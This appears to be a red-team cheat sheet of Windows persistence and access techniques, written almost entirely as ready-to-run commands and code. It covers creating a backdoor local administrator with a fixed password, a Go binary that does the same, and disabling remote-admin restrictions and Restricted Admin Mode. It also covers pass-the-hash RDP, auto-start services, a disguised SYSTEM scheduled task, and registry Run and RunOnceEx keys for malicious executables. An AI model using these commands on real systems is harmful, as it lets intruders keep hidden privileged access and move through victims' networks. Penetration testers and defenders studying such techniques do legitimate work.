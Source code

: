 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Background jobs

```powershell
$job = Start-Job { c:/ProgramData/file.exe -args }
```

_Receive output_

```powershell
Receive-Job -Job $job -Keep
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```

### Registry

#### What are Run keys? <a href="#id-0908" id="id-0908"></a>

There are two different types of run keys: Those that get run once and those that get run every time the user logs in.

The following key get run everytime a specific user logs in. You will have to specify the SID of the user:

```
HKEY_USERS\<sid>\Software\Microsoft\Windows\CurrentVersion\Run\
```

The following registry key runs every time any user logs into the machine:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\
```

The run once keys are only executed once. If your malware uses these keys to persist, then it should contain a function to add this key every time it gets executed.

#### Command Prompt / CMD <a href="#id-2c89" id="id-2c89"></a>

With `reg add KEY_NAME /V VALUE_NAME /d DATA /f` you can add a new key.

* `KEY_NAME` should be the registry key name, e.g. “run once key”.
* `VALUE_NAME` should be the name of the entry.
* `DATA` should be the data of the entry, for example the path to your malicious executable.

#### Code <a href="#d9e5" id="d9e5"></a>

Of course you can also implement the creation of a registry key in your code. In C# you can do that with the following code:

```csharp
Microsoft.Win32.RegistryKey key; 
key = Microsoft.Win32.Registry.CurrentUser.CreateSubKey("My_Key"); key.SetValue("My_Key", "Test"); 
key.Close();
```

#### Registry run keys

**HKCU**

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
```

**HKLM**

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

DIfference: `HKCU` → for current user only, `HKLM` → for all



there are two more registry locations that could allow red teams to achieve persistence by executing either an arbitrary payload or a DLL. These will be executed during logon and require admin level privileges.

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.dll"
```
